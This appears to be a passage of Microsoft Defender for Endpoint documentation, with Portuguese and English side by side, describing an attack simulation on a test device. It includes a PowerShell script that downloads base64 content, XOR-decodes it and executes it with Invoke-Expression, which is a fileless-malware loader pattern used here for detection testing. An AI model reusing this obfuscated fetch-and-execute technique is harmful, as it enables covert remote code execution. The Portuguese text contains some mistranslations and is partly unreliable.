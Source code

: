    1. <span data-ttu-id="98a58-144">[A Windows Defender Antivírus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="98a58-144">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="98a58-145">Se você estiver com problemas para habil Windows Defender Antivírus, consulte este tópico [de solução de problemas.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="98a58-145">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>

   1. <span data-ttu-id="98a58-146">Verifique se o dispositivo de teste está [conectado ao Microsoft Defender para Ponto de Extremidade)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="98a58-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="98a58-147">Se você usar um locatário existente e implementar grupos de dispositivos, crie um grupo de dispositivos dedicado para o dispositivo de teste e pressione-o para o nível superior no UX de configuração.</span><span class="sxs-lookup"><span data-stu-id="98a58-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="98a58-148">Executar a simulação de cenário de ataque</span><span class="sxs-lookup"><span data-stu-id="98a58-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="98a58-149">Para executar a simulação de cenário de ataque:</span><span class="sxs-lookup"><span data-stu-id="98a58-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="98a58-150">Faça logoff no dispositivo de teste com a conta de usuário de teste.</span><span class="sxs-lookup"><span data-stu-id="98a58-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="98a58-151">Abra uma Windows PowerShell no dispositivo de teste.</span><span class="sxs-lookup"><span data-stu-id="98a58-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="98a58-152">Copie o seguinte script de simulação:</span><span class="sxs-lookup"><span data-stu-id="98a58-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
